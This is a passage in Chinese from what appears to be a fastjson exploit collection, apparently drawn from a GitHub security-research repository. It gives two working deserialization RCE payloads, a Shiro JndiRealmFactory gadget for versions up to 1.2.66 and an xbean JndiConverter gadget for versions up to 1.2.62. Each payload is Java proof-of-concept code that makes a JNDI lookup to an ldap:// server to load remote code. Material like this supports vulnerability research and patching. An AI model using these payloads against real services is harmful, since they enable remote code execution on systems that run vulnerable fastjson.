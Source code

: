 - https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/HadoopHikariPoc.java

## Shiro RCE（<= 1.2.66）（高频率）

fastjson <= 1.2.66 RCE，需要开启 AutoType

shiro-core gadget

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String payload = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:43658/Calc\"], \"Realms\":[\"\"]}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.66

### 依赖

```
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/ShiroPoc.java

## JndiConverter RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType (report by threedr3am to ASRC)

Jackson-databind 的 CVE-2020-8840 gadget 与 Fastjson 通用

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String payload = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}";//ldap方式
    JSON.parse(payload);
}
```

